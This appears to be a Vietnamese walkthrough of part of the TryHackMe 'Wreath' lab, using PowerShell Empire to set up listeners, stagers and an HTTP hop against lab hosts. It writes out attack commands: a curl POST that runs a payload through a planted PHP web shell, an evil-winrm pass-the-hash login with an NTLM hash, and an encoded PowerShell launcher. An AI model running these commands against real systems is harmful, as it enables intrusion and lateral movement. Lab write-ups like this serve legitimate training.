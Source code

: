POWERHSELL EMPIRE

Khởi động empire server

Nếu lỗi, dùng lệnh

sudo lsof -n -i :5000 | grep LISTEN

![](../media/Wreath%20-%20tryhackme_16.png)

Khởi động empire client

Use listener

![](../media/Wreath%20-%20tryhackme_17.png)

Use stager

![](../media/Wreath%20-%20tryhackme_18.png)

Paste payload vào host target .200 để empire nhận được agent

Use lisenter

![](../media/Wreath%20-%20tryhackme_19.png)

Nén thư mục /tmp/http_hop  thành file zip, rồi tạo web server bằng python. Tiếp tục dung curl trên target .200 để download và giải nén.

Mở port và chạy server php:

php -S 0.0.0.0:PORT &>/dev/null &

![](../media/Wreath%20-%20tryhackme_20.png)

usestager multi/launcher

![](../media/Wreath%20-%20tryhackme_21.png)

Chạy payload

curl -X POST http://10.200.84.150/web/exploit-dai.php -d "a=payload"

hoặc đăng nhập vào git server để chạy trực tiếp payload đã được tạo

evil-winrm -u Administrator -H 37db630168e5f82aafa8461e05c6bbd1 -i 10.200.84.150

powershell -noP -sta -w 1 -enc "payload"

tiếp tục với Use module![](../media/Wreath%20-%20tryhackme_22.png)

kết quả có thể hiện ra một số cve để leo thang

![](../media/Wreath%20-%20tryhackme_23.png)

Chuyển qua giai đoạn enum host cuối cùng.

Dùng evil-winrm để link tới script của empire.

sudo evil-winrm -u Administrator -H 37db630168e5f82aafa8461e05c6bbd1 -i 10.200.84.150 -s   /usr/share/powershell-empire/empire/server/data/module_source/situational_awareness/network
